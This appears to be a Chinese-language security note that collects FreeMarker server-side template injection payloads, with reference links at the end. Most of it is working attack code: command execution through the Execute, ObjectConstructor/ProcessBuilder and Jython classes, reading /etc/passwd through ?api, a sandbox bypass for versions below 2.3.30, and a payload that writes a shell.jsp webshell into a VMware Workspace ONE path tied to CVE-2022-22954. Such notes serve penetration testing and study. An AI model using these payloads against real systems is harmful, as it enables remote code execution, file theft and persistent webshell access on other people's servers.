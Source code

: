 ```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ipconfig") }

${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","cmd","/c","ipconfig", ">", "D:/test/ipconfig.txt").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>    // 依赖org.python.util.PythonInterpreter(org.python:jython-standalone)
```

还有一个payload:
> value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

```java
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

不过可能报错：
```
freemarker.core._MiscTemplateException: Can't use ?api, because the "api_builtin_enabled" configuration setting is false.
```

### 2.3.30以下的sanbox bypass
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

还有一个来自y4er:
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileOutputStream","/opt/vmware/horizon/workspace/webapps/catalog-portal/shell.jsp").write("freemarker.template.utility.ObjectConstructor"?new()("java.lang.String","test").getBytes())}
```
根据这个修改一个freemarker的回显方式：
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner", "freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder", "cmd", "/c", "ipconfig").start().getInputStream()).useDelimiter("\\A").next()}
```

### Ref
- https://www.cnblogs.com/nice0e3/p/16217471.html
- [服务器端模版注入SSTI分析与归纳](https://tttang.com/archive/1412/)
- [Apache Axis1（<=1.4版本） RCE](https://xz.aliyun.com/t/5513)
- [【最新漏洞预警】CVE-2022-22954 VMware Workspace ONE Access SSTI漏洞](https://mp.weixin.qq.com/s/X_E0zWONLVUQcgP6nZ78Mw)
- https://sp4zcmd.github.io/2021/09/01/FreeMarker%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/#CVE-2019-9614
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker
